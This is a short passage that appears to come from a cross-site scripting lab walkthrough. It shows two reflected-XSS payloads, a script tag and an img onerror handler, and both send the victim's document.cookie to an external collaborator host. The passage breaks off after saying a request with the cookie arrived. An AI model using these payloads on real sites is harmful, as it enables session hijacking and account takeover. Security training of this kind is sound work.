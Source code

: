 
Next we test a payload from https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md: 

```
<script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>
```

Or

```
<img src=x onerror="this.src='http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie='+document.cookie; this.removeAttribute('onerror');">
```




![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/3.png)

We get an HTTP request with the cookie:


